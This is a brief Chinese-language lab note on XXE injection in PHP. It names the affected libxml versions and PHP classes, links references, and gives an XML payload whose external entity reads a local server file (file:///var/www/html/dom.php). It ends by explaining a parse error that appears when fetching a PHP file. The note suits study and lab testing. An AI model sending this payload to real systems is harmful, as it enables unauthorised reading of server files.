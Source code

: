 # XXE

受到影响的类和函数
`SimpleXMLElement`、`DOMDocument`、`simplexml_load_string`
(libxml<2.9.0, PHP 5, PHP 7)
libxml2.9.0以后，默认不解析外部实体，导致XXE漏洞逐渐消亡。为了演示PHP环境下的XXE漏洞，本例会将libxml2.8.0版本编译进PHP中。PHP版本并不影响XXE利用。

参考
	- https://github.com/vulhub/vulhub/tree/master/php/php_xxe
	- https://www.kingkk.com/2018/07/%E7%AE%80%E6%9E%90XXE/
	- https://www.php.net/manual/en/class.simplexmlelement.php
	- https://stackoverflow.com/questions/51103431/parsepi-pi-php-never-end-when-trying-to-run-a-new-unit-test

payload：
```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///var/www/html/dom.php" >]>
<root>
<name>&xxe;</name>
</root>
```
在获取dom.php文件时，最开始会报错
`DOMDocument::loadXML(): ParsePI: PI php never end ... in file:///var/www/html/dom.php, line: 7 in `
这是因为xml把`<?php`识别为标签的开始，但是并没有出现标签的结束`>`，加上就好了。
